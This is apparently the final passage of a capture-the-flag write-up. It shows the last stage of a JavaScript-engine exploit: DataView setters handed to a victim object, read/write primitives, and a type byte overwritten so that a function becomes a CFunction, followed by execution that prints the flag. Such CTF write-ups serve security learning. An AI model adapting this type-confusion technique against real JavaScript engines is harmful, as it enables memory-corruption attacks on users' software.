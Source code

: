 ```js
// give victim dataview functions
victim.su32 = DataView.prototype.setUint32;
victim.su8 = DataView.prototype.setUint8;

write32(Challenge.write(), read32(Challenge.read()));

// overwrite the type of bad_fn to make it a CFunction
victim.su8(0x180, 5);

// call the code to fetch the flag
execute(Challenge.exec());

// get the flag!
var flag = Challenge.getFlag();
print(flag);
```

Thanks for reading!




